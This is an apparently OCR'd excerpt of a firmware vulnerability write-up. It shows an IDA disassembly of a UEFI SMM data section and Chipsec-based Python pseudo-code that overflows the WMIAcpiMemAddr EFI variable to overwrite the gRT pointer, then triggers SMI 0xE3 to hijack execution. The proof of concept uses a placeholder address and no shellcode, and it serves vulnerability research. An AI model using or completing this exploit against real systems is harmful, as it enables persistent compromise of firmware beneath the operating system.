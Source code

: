 ```
.data:000000004AA3476A                 db    0
.data:000000004AA3476B                 db    0
.data:000000004AA3476C                 db    0
.data:000000004AA3476D                 db    0
.data:000000004AA3476E                 db    0
.data:000000004AA3476F                 db    0
.data:000000004AA34770 ; EFI_RUNTIME_SERVICES *gRT
.data:000000004AA34770 gRT             dq 0                    ; DATA XREF: sub_4AA32A08+21↑r
.data:000000004AA34770                                         ; sub_4AA32A08+90↑r ...
.data:000000004AA34778 ; _EFI_SMM_SYSTEM_TABLE2 *gSmst_0
.data:000000004AA34778 gSmst_1         dq 0                    ; DATA XREF: sub_4AA32BDC+C↑r
... LOTS OF ROOM DOWN HERE ...
```

##### The Exploit
Python pseudo-code using Chipsec:

<div class="example">
</div>
```
class WMIPayload(ctypes.LittleEndianStructure):
  _pack_ = 1
  _fields_ = [
    ("WmiACPIMemAddress", ctypes.c_uint64),        # 0x0000
    ("WmiACPIMemAddressCpy", ctypes.c_uint64),     # 0x0008
    ("pad_0010", ctypes.c_char * 24),              # 0x0010
    ("gSMST_0", ctypes.c_uint64),                  # 0x0028
    ("pad_0030", ctypes.c_char * 40),              # 0x0030
    ("InSmram", ctypes.c_uint64),                  # 0x0058
    ("gSMRT", ctypes.c_uint64),                    # 0x0060
    ("gSMST_1", ctypes.c_uint64),                  # 0x0068
  ]
    ...

def set_wmi_var(data):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    bytes(data),
    ctypes.sizeof(data),
    7,
  )

  if status != 0:
    print("Failed to set WMIAcpiMemAddr variable!")
    exit(1)

overflow = WMIPayload()
overflow.gSMRT = 0xDEADBEEF

set_wmi_var(overflow)

// fire handler which calls GetVariable, which will cause pWMIAcpiMemAddr to overflow
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

// the next call to SMI handler 0xE3 will call 0xDEADBEEF->GetVariable instead of gRT->GetVariable
// so, if one were able to write shellcode to that address, then redirecting execution would be achieved
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```
